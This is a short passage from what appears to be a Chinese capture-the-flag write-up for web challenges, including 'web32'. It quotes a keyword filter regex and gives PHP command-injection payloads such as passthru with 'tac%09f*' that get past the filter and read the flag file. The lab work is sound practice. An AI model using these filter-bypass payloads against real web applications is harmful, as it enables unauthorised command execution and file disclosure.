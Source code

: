 ```
?c=echo(`tac%09f*`);
```

传入

![image-20231216114305234](照片/image-20231216114305234.png)

得到flag

------

#### web32

分析

![image-20231216114314410](照片/image-20231216114314410.png)

过滤了

```
flag|system|php|cat|sort|shell|\.| |\'
```

编写命令

```
?c=passthru("tac%09f*");
```

输入

![image-20231216114325905](照片/image-20231216114325905.png)
